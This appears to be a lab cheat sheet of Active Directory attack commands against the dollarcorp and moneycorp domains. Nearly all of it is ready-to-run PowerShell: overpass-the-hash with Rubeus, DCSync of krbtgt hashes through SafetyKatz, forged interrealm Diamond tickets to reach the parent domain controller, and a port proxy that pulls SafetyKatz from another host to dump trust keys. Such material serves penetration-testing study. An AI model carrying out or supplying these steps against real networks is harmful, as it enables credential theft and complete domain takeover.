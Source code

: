 #### OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Access parent domain DC
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e /tgtdeleg /enctype:aes /ticketuser:administrator /domain:moneycorp.local /dc:mcorp-dc.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

> **Note:** Can only access resources that were explicitly shared with you

Across external trusts - OPtH and obtain trust key
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe

winrs -r:dcorp-dc 

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```


